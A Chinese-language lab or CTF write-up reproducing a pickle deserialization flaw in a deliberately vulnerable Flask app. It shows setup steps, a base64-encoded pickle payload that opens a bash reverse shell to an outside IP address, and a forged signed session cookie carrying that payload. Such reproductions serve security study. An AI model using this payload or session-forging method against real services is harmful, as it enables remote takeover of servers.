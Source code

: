 # Collection of verified vulnerabilities

## *Easy Flask - Python 反序列化*

### 使用方法
```
./
├── README.MD                   ────介绍文档
├── app.py                      ────flask app路由文件
├── conf.py                     ────flask配置文件
├── source                      ────source样例文件
└── template/                   ────模版目录
```
- 依赖安装
```
➜ python3 -m pip install itsdangerous
➜ python3 -m pip install flask
```
- 运行：`python3 app.py`
```
CTFHUBCTFHUBCTFHUB
 * Serving Flask app "app" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://0.0.0.0:80/ (Press CTRL+C to quit)

```

## 反序列化复现

- [*command.py*(点击查看代码)](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Flask/poc/command.py) 生成base64加密命令：
```
➜ python command.py
Y19fYnVpbHRpbl9fCmV2YWwKcDAKKFMiX19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2Jhc2ggLWkgPiYvZGV2L3RjcC80Ny43NC4zMS42NC8xMTAwMSAwPiYgMScpIgpwMQp0cDIKUnAzCi4=
```

- [*flask_manage_python3.py*(点击查看代码)](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Flask/poc/flask_manage_python3.py) 生成攻击反序列化session值：

```
➜ python3 flask_manage_python3.py encode -t "{'u':{'b':'Y19fYnVpbHRpbl9fCmV2YWwKcDAKKFMiX19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2Jhc2ggLWkgPiYvZGV2L3RjcC80Ny43NC4zMS42NC8xMTAwMSAwPiYgMScpIgpwMQp0cDIKUnAzCi4='}}" -s 'CTFHUBCTFHUBCTFHUB'

.eJwNys0OgiAAAOB34QkIaVO3DoarFGElpeARlmQ_xCVNne9e3_mbwQfEM9AgBmoVtcpVXh9Kr59RS14VUvVATZpQumOdXEVey21vXNnK0TodMEfFerpKDpsavnOU3wyytqgf9tipvtlXqAjKuyEh5CMOOMETExhxEn7ZORmYSIb_s0wYn1k_sJOHJs3oxSUT6fAGLMsP6_szsg.YJiviQ.l_Q71GoaEtJUOpftylPuSDqzUPU
```

![poc_success.png](../../assets/flask_poc_success.png)